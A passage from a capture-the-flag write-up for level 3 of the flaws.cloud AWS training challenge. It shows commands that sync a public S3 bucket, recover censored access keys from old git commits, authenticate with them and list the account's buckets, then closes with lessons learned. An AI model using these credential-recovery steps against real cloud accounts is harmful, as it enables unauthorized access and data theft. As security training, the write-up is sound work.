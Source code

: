 It looks like they want me to grab something from a previous commit, or something of that nature, so I use `aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud level3_bucket` to pull down the entire bucket to the `level3_bucket` folder on my machine.

I then use `git log` and see a very inconscipicuous commit message.

```text
wsl@fronkle:~/ctfs/flaws/level3-bucket$ git log
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

I switch to the first commit with `git checkout` and find a file called `access_keys.txt`. 

```text
wsl@fronkle:~/ctfs/flaws/level3-bucket$ cat access_keys.txt
access_key AKIA<!--censored-->SA
secret_access_key OdNa<!--censored-->83Jys
```

I do `aws configure` to switch to the user that these access keys let me authenticate as.

```text
wsl@fronkle:~/ctfs/flaws/level3-bucket$ aws sts get-caller-identity
{
    "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
    "Account": "975426262029",
    "Arn": "arn:aws:iam::975426262029:user/backup"
}
```

The command `aws s3api list-buckets` lets me list all buckets this user has access to under its account. It reveals a ton of buckets. 

![Long list of buckets including current and future level's](../../../assets/writeups/flaws.cloud/Pasted_image_20230122232411.png)

This gives me the address for the fourth level, so I navigate there.

### Lessons Learned

- Just like with traditional web directory fuzzing, an S3 bucket can hold unintentionally publicized secrets. In this case, a git configuration folder was included, which allowed me to view old commits that had not been properly redacted.
- AWS does not let you restrict which buckets are displayed when it gives permission for `s3api list-buckets`. It's an all-or-nothing deal. 

## Level 4
